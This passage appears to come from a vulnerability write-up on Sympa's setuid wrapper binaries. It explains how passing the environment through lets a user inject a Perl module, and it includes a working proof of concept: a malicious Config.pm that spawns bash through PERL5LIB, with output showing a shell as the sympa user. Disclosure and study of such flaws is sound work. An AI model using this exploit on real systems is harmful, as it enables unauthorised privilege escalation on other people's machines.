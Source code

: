 ```c
#include <unistd.h>

int main(int argn, char **argv, char **envp) {
    setreuid(geteuid(),geteuid()); // Added to fix the segfault
    setregid(getegid(),getegid()); // Added to fix the segfault
    argv[0] = WWSYMPA;
    return execve(WWSYMPA,argv,envp);
}
```

The program simply execute the *WWSYMPA* binary : `wwsympa.fcgi` as the *sympa* user and group. However, something is very interesting here : *envp* is passed to this binary!

This means that every environment variable defined when running the `wwsympa-wrapper.fcgi` is passed to `wwsympa.fcgi`.

Let's take a look at `wwsympa.fcgi`:

```
$ head wwsympa.fcgi.in 
#!--PERL--
# -*- indent-tabs-mode: nil; -*-
# vim:ft=perl:et:sw=4
# $Id$
[...]
```

That's a Perl script! And, luckily for us, the PERL interpreter looks at the `PERLLIB` and `PERL5LIB` environment variables to look for Perl modules.

So, if we can create a malicious Perl module, the PERL interpreter will check the PERLLIB and PERL5LIB path, and if a module name matches, it will load it. 

We came up with the following PoC that allows us to escalate our privileges as *sympa*, by creating a malicious *Config* perl module:

```
$ id
uid=1000(xyz) gid=1000(xyz) groupes=1000(xyz),10(wheel) contexte=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
$ mkdir /tmp/poc
$ echo 'exec("/bin/bash");' > /tmp/poc/Config.pm
$ PERL5LIB=/tmp/poc PERLLIB=/tmp/poc /usr/libexec/sympa/wwsympa-wrapper.fcgi
bash-5.0$ id
uid=977(sympa) gid=975(sympa) groupes=975(sympa),10(wheel),1000(xyz) contexte=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

As we are now the *sympa* user, we are allowed to execute the `sympa_newaliases-wrapper` binary. Let's take a look at the source code:

```c
#include <unistd.h>

int main(int argn, char **argv, char **envp) {
    setreuid(geteuid(),geteuid());
    setregid(getegid(),getegid());
    argv[0] = SYMPA_NEWALIASES;
    return execve(SYMPA_NEWALIASES, argv, envp);
}
```
